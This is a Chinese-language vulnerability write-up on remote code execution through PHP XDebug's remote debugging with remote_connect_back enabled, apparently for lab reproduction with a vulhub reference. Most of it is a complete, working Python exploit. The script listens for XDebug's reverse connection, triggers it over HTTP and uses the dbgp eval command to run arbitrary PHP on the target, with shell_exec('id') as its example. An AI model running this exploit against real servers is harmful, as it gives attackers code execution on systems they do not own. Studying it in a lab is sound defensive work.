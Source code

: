 Php XDebug 远程调试漏洞
=======================

一、漏洞简介
------------

XDebug是PHP的一个扩展，用于调试PHP代码。如果目标开启了远程调试模式，并设置`remote_connect_back = 1`：

    xdebug.remote_connect_back = 1
    xdebug.remote_enable = 1

这个配置下，我们访问`http://www.0-sec.org/index.php?XDEBUG_SESSION_START=phpstorm`，目标服务器的XDebug将会连接访问者的IP（或`X-Forwarded-For`头指定的地址）并通过dbgp协议与其通信，我们通过dbgp中提供的eval方法即可在目标服务器上执行任意PHP代码。

二、漏洞影响
------------

三、复现过程
------------

因为需要使用dbgp协议与目标服务器通信，所以无法用http协议复现漏洞。

我编写了一个漏洞复现脚本，指定目标web地址、待执行的php代码即可：

    # 要求用python3并安装requests库
    python3 exp.py -t http://www.0-sec.org:8080/index.php -c 'shell_exec('id');'
    #!/usr/bin/env python3
    import re
    import sys
    import time
    import requests
    import argparse
    import socket
    import base64
    import binascii
    from concurrent.futures import ThreadPoolExecutor


    pool = ThreadPoolExecutor(1)
    session = requests.session()
    session.headers = {
        'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
    }

    def recv_xml(sock):
        blocks = []
        data = b''
        while True:
            try:
                data = data + sock.recv(1024)
            except socket.error as e:
                break
            if not data:
                break

            while data:
                eop = data.find(b'\x00')
                if eop < 0:
                    break
                blocks.append(data[:eop])
                data = data[eop+1:]

            if len(blocks) >= 4:
                break
        
        return blocks[3]


    def trigger(url):
        time.sleep(2)
        try:
            session.get(url + '?XDEBUG_SESSION_START=phpstorm', timeout=0.1)
        except:
            pass


    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description='XDebug remote debug code execution.')
        parser.add_argument('-c', '--code', required=True, help='the code you want to execute.')
        parser.add_argument('-t', '--target', required=True, help='target url.')
        parser.add_argument('-l', '--listen', default=9000, type=int, help='local port')
        args = parser.parse_args()
        
        ip_port = ('0.0.0.0', args.listen)
        sk = socket.socket()
        sk.settimeout(10)
        sk.bind(ip_port)
        sk.listen(5)

        pool.submit(trigger, args.target)
        conn, addr = sk.accept()
        conn.sendall(b''.join([b'eval -i 1 -- ', base64.b64encode(args.code.encode()), b'\x00']))

        data = recv_xml(conn)
        print('[+] Recieve data: ' + data.decode())
        g = re.search(rb'<\!\[CDATA\[([a-z0-9=\./\+]+)\]\]>', data, re.I)
        if not g:
            print('[-] No result...')
            sys.exit(0)

        data = g.group(1)

        try:
            print('[+] Result: ' + base64.b64decode(data).decode())
        except binascii.Error:
            print('[-] May be not string result...')

![](resource/PhpXDebug远程调试漏洞/media/rId24.png)

**重要说明：因为该通信是一个反向连接的过程，exp.py启动后其实是会监听本地的9000端口（可通过-l参数指定）并等待XDebug前来连接，所以执行该脚本的服务器必须有外网IP（或者与目标服务器处于同一内网）。**

参考链接
--------

> https://vulhub.org/\#/environments/php/xdebug-rce/
